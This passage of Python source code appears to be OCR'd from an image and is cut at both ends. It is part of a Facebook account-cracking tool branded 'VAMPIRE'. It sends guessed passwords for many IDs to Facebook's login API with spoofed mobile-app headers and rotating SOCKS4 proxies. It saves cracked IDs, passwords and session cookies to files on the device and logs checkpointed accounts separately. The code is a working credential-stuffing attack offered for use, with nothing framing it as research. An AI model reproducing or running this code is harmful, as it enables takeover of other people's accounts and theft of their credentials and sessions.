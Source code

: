            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':ids,'password':pas,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale': 'en_GB','client_country_code': 'GB','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
            headers = {'User-Agent': f'{R2}', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'Keep-Alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': str(random.randint(20000, 40000)), 'X-FB-SIM-HNI': str(random.randint(20000, 40000)), 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=62f8ce9f74b12f84c123cc23437a4a32', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': '62f8ce9f74b12f84c123cc23437a4a32'}
            url = 'https://graph.facebook.com/auth/login'
            po = requests.post(url,data=data,headers=headers,proxies=bro).text
            q = json.loads(po)
            if 'session_key' in q:
                ckkk = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                uid=str(q['uid'])
                abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
                ckk = f'https://graph.facebook.com/{uid}/picture?type=normal'
                res = requests.get(ckk).text
                if 'Photoshop' in res:
                    print(f"\r\r {red}[{green}VAMPIRE-OK{red}] {green}{uid} {red}| {green}{pas} ")
                    oks.append(ids)
                    open('/sdcard/VAMPIRE/VAMPIRE-M2-RN-OK.txt','a').write(uid+'|'+pas+'|'+ckkk+'\n')
                    print(f"\r\r {red}[{green}COOKIE{red}]{green} ={abir} {coki}")
                    break
            elif 'www.facebook.com' in q:
                cps.append(ids)
                print(f"\r\r {green}[{red}VAMPIRE-CP{green}] {uid} {red}|{green} {pas} ")
                open('/sdcard/VAMPIRE/VAMPIRE-RNDM-CP.txt','a').write(ids+'|'+pas+'\n')                
            else:continue
        loop+=1
    except requests.exceptions.ConnectionError:
        time.sleep(10)
    except Exception as e:
        pass
#---------RANDOM M3
def randm2(ids,psd,tl):
    global loop,oks,cps,xvx
    abir = random.choice(["\x1b[38;5;196m","\x1b[38;5;208m","\033[1;30m","\x1b[38;5;160m","\x1b[38;5;46m","\033[1;33m","\033[38;5;6m","\033[1;35m","\033[1;36m","\033[1;37m"])
    sys.stdout.write(f"\r {red}[{abir}VAMPIRE{red}]-{red}[{cyan}{loop}{red}]-{red}[{green}OK{white}-{green}{len(oks)}{red}]-{red}[{green}{'{:.1%}'.format(loop/int(tl))}{red}]"),
    sys.stdout.flush()
    try:
        for pas in psd:
            accees_token = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
            pas = rmpassconf(ids,pas)
            prox=random.choice(xvx)
            bro={"http":"socks4://"+prox}
            data = {'adid':str(uuid.uuid4()),'format':'json','device_id':str(uuid.uuid4()),'email':ids,'password':pas,'generate_analytics_claims':'1','community_id':'','cpl':'true','try_num':'1','family_device_id':str(uuid.uuid4()),'credentials_type':'password','source':'login','error_detail_type':'button_with_disabled','enroll_misauth':'false','generate_session_cookies':'1','generate_machine_id':'1','currently_logged_in_userid':'0','locale': 'en_GB','client_country_code': 'GB','fb_api_req_friendly_name':'authenticate','api_key':'62f8ce9f74b12f84c123cc23437a4a32','access_token':accees_token}
